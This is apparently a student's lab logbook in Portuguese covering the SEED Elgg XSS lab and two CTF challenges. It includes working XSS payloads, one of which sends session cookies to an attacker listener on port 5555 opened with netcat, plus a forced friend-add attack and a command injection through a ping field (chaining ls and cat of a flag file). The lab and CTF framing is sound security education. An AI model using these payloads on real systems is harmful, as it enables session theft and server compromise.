 # TAREFA 1
- Depois de entrar na conta da Alice e de adicionar na ```brief description``` o seguinte programa, que apenas faz com que apareça um alerta com o texto XSS. 
```html 
<script>alert(’XSS’);</script> 
```
Ao voltarmos a visualizar o perfil dela deparamonos com o alerta mandado pelo javascript

![Task1](imageslogbook10/task1_1_sem10.PNG)


# TAREFA 2

- Após altermos o código na ```brief description``` para
```html 
<script>alert(document.cookie);</script> 
```
vimos que ao acedermos ao perfil da Alice aparece o alerta com a cookie do utilizador. Isto deve-se ao facto de que em javascript ```document``` identifica a página toda e dentro da página selecionamos o elemento ```cookie```.
![Task2](imageslogbook10/task2_sem10.PNG)
Isto também acontece quando outro utilizador visita o perfil da Alice.
![Task2_2](imageslogbook10/task2_2_sem10.PNG)

# TAREFA 3

Correndo 
```bash
nc -lknv 5555
```
conseguimos "ouvir" todos os pedidos feitos à porta `5555`.
Após a alteração do código da `brief description` da Alice para 
```html
<script>document.write(’<img src=http://10.9.0.1:5555?c=’
+ escape(document.cookie) + ’ >’);
</script>
```
sempre que acedemos ao perfil da Alice vamos mandar para a porta `5555` do atacante as cookies da sessão. 
<br>
Isto acontece porque o JavaScript, ao inserir uma imagem, faz com que o browser tente dar load da imagem do URL colocado no campo `src`, isto resulta no pedido `HTTP GET` para esse `src` que neste caso é a porta `5555` da máquina do atacante.

![Task3](imageslogbook10/task3_sem10.PNG)


# TAREFA 4
- Primeiramente, decidimos ver como era feito um pedido de amigo no site. Ao fazer hover no botão `Add friend` e ao inspecionar o elemento vimos que o site faz o pedido
```bash
www.seed-server.com/action/friends/add?friend=x&__elgg_ts=y&__elgg_toke=z
```
sendo o `x` o id do utilizador e o `y` e o `z` tokens de segurança. Vimos também que o id do `Samy` é 59.

![Task4_1](imageslogbook10/task4_1_sem10.PNG)


- De seguida fomos alterar o perfil do `Samy` e colocamos no `Text Mode` do `About Me` o seguinte:

![Task4_2](imageslogbook10/task4_2_sem10.PNG)

- Ao entrar na conta da `Alice` e ir ao perfil do `Samy` vimos que ao inspecionar a `Network` foi feito um pedido para adicionar o `Samy` como amigo sem clicar no botão `Add friend`.

![Task4_3](imageslogbook10/task4_3_sem10.PNG)
Indo depois aos amigos de `Alice` conseguimos ver o `Samy` na lista de amigos.
![Task4_4](imageslogbook10/task4_4_sem10.PNG)

- Este ataque só funciona no `Text Mode` do `About Me` uma vez que o `Editor mode` pega no texto inserido e vai automaticamente colocar o texto em `<p>` e transformar caracteres não permitidos, por exemplo o `<`, como é possível ver nas imagens:

![Task4_5](imageslogbook10/task4_5_sem10.PNG)

![Task4_6](imageslogbook10/task4_6_sem10.PNG)


# CTF 1

Pela descrição e contexto do desafio, percebemos que uma estratégia possível para obter a flag é recorrer a XSS para fazer com que o admin "carregue" no botão que fornece a flag, visto que é dito no enunciado que a página do admin é igual à página que o utilizador vê. 
Assim sendo, obtivemos o id do botão que queremos pressionar usando a funcionalidade de "Inspecionar elemento" que é disponibilizada pelo Firefox:
![img](CTF/Semana10-Desafio1/id_of_button.png)

O passo seguinte foi usar a função "click()" do javascript para fazer com que o admin carregue no botão por nós:
![img](CTF/Semana10-Desafio1/payload.png)

Por fim, obtivemos a flag:
![img](CTF/Semana10-Desafio1/flag.png)

# CTF 2
A primeira coisa que decidimos fazer foi testar todas as funcionalidades do sistema.
A funcionalidade que achámos mais provável de conseguir abusar foi a `Ping`.
Primeiro testamos enviar um IP qualquer, neste caso `8.8.8.8`, e ver o resultado.

![intialvalue](CTF/Semana10-Desafio2/initialvalue.PNG)

Reparamos que é executado o comando `ping`. O comando `ping` é um utilitário que é usado para testar e verificar se um endereço IP existe.<br>
Como é um utilitário linux podemos fazer uma chain de comandos à nossa escolha usando `&&`, neste caso testamos o comando `ls`:

![Ls](CTF/Semana10-Desafio2/ls.PNG)
![Lsresponse](CTF/Semana10-Desafio2/lsresponse.PNG)

Como se pode ver na imagem de cima, no final do comando `ping` conseguimos ver os ficheiros que se encontram no diretório atual.
<br>
<br>
Sabendo que o comando `ls` funciona então basta correr `cat /flags/flag.txt` para conseguir a flag

![lastcommand](CTF/Semana10-Desafio2/lastcommand.PNG)
![flag](CTF/Semana10-Desafio2/flag.PNG)
